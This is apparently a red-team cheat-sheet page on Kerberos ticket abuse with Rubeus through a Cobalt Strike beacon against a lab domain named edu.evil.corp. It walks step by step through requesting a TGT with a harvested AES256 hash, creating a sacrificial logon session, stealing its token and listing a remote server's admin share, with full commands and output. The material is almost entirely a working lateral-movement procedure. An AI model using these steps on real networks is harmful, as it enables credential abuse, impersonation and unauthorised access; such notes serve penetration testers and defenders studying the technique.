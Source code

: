 # Rubeus

## Request TGT and inject into sacrificial process
1. Check permissions
``````beacon
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)
``````
2.  Ask for TGT with aes256 hash gathered via [[eKeys]] or [[LSASS dumping]] and create a new logon session
``````beacon
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:doe /domain:edu.evil.corp /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

[*] Action: Ask TGT
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3044
[+] LUID            : 0x85a103

[*] Using domain controller: dc-2.edu.evil.corp (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
[*] Building AS-REQ (w/ preauth) for: 'edu.evil.corp\doe'
[*] Target LUID : 8757507
[+] TGT request successful!
[*] base64(ticket.kirbi):

 [...ticket...]

[*] Target LUID: 0x85a103
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/edu.evil.corp
  ServiceRealm          :  edu.evil.corp
  UserName              :  doe
  UserRealm             :  edu.evil.corp
  StartTime             :  3/4/2022 12:48:16 PM
  EndTime               :  3/4/2022 10:48:16 PM
  RenewTill             :  3/11/2022 12:48:16 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  Jr93ezQ6z+rc0/1h30UXaGxVkRLVsWSl9mG0nNeXuTU=
``````
3. Steal the logon session token
``````beacon
beacon> steal_token 3044
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/10/2022 04:11:30   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
 ``````
